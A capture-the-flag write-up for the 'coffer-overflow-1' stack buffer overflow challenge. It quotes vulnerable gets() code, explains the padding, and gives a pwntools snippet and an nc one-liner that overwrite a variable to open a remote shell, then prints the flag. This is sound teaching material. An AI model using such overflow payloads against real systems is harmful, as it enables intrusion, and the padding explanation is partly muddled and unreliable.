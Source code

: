 # coffer-overflow-1
This is the second `buffer overflow` question, we need more control over the payload this time.
## The source
```cpp
long code = 0;
  char name[16];
  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
```
This is the core functionality of the source, and it uses the `gets()` method again. Here we not only need to change the value of name, we also need to set it to `0xcafebabe` in little edian. What we need to do is overwrite the `code` variable to the desired value.
## The exploit
First we need to figure out the padding, which is how big is the buffer before we reach `code`. Here the string(char array) is allocated 16, to overflow `rip` we need to find `rbp+0x8`. So, we can find the buffer size of `16+8=24`. This means that 32 bytes will be allocated for the function since 24 is smaller that 32. We just need to modify the last 8 bytes of the 32 hence we have a padding of `32-8=24`.  
Next we try to write the value `0xcafebabe`, we can use pwn tools to convert it to little edian and then use python to output the payload
```python
from pwn import *
print p32(0xcafebabe)
```
Then we could redirect the output to the netcat server and we have a shell
## The flag
```bash
(python2 -c "print 'A'*24+'\xbe\xba\xfe\xca'";cat) | nc 2020.redpwnc.tf 31255
```
the `cat` here is to keep the shell open
```
cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```
